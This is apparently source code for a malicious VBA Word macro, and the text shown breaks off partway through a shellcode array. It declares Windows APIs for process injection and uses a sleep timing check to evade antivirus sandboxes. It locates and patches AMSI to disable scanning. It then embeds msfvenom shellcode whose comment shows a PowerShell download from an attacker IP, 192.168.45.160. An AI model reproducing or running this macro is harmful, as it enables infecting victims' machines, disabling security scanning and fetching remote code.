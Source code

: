 ```vba
Private Declare PtrSafe Sub patched Lib "KERNEL32" Alias "RtlFillMemory" (Destination As Any, ByVal Length As Long, ByVal Fill As Byte)
'inject
Private Declare PtrSafe Function OpenProcess Lib "KERNEL32" (ByVal dwDesiredAcess As Long, ByVal bInheritHandle As Long, ByVal dwProcessId As LongPtr) As LongPtr
Private Declare PtrSafe Function VirtualAllocEx Lib "KERNEL32" (ByVal hProcess As Integer, ByVal lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal fAllocType As LongPtr, ByVal flProtect As LongPtr) As LongPtr
Private Declare PtrSafe Function WriteProcessMemory Lib "KERNEL32" (ByVal hProcess As LongPtr, ByVal lpBaseAddress As LongPtr, ByRef lpBuffer As LongPtr, ByVal nSize As LongPtr, ByRef lpNumberOfBytesWritten As LongPtr) As LongPtr
Private Declare PtrSafe Function CreateRemoteThread Lib "KERNEL32" (ByVal ProcessHandle As LongPtr, ByVal lpThreadAttributes As Long, ByVal dwStackSize As LongPtr, ByVal lpStartAddress As LongPtr, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByVal lpThreadID As Long) As LongPtr
Public Declare PtrSafe Function EnumProcesses Lib "psapi.dll" (lpidProcess As LongPtr, ByVal cb As LongPtr, lpcbNeeded As LongPtr) As LongPtr
Public Declare PtrSafe Function IsWow64Process Lib "KERNEL32" (ByVal hProcess As LongPtr, ByRef Wow64Process As Boolean) As Boolean
Private Declare PtrSafe Function CloseHandle Lib "KERNEL32" (ByVal hObject As LongPtr) As Boolean

Function mymacro()
    Dim myTime
    Dim Timein As Date
    Dim second_time
    Dim Timeout As Date
    Dim subtime As Variant
    Dim vOut As Integer
    Dim Is64 As Boolean
    Dim StrFile As String
    
    ' attempt av detection with sleep
    myTime = Time
    Timein = Date + myTime
    Sleep (4000)
    second_time = Time
    Timeout = Date + second_time
    subtime = DateDiff("s", Timein, Timeout)
    vOut = CInt(subtime)
    If subtime < 3.5 Then
        Exit Function
    End If

    
    StrFile = Dir("c:\windows\system32\a?s?.d*")
    'Call architecture function to determine if we are in 32 bit or 64 bit word. 64 bit returns True.
    Is64 = arch()
    'Call amsi check function to determine if amsi.dll is loaded into Word. This is the case in word 2019+. Returns True if Amsi is found.
    check = amcheck(StrFile, Is64)
    
    'If amsi is found, call amsi patching function
    If check Then
        patch StrFile, Is64
    End If

    If Is64 Then
        'msfvenom -p windows/x64/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.160/Exectest')" EXITFUNC=thread
        buf = Array(252, 72, 131, 228, 240, 232, 192, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, 210, 101, 72, 139, 82, 96, 72, 139, 82, 24, 72, 139, 82, 32, 72, 139, 114, 80, 72, 15, 183, 74, 74, 77, 49, 201, 72, 49, 192, 172, 60, 97, 124, 2, 44, 32, 65, 193, 201, 13, 65, 1, 193, 226, 237, 82, 65, 81, 72, 139, 82, 32, 139, 66, 60, 72, 1, 208, 139, 128, 136, 0, _
```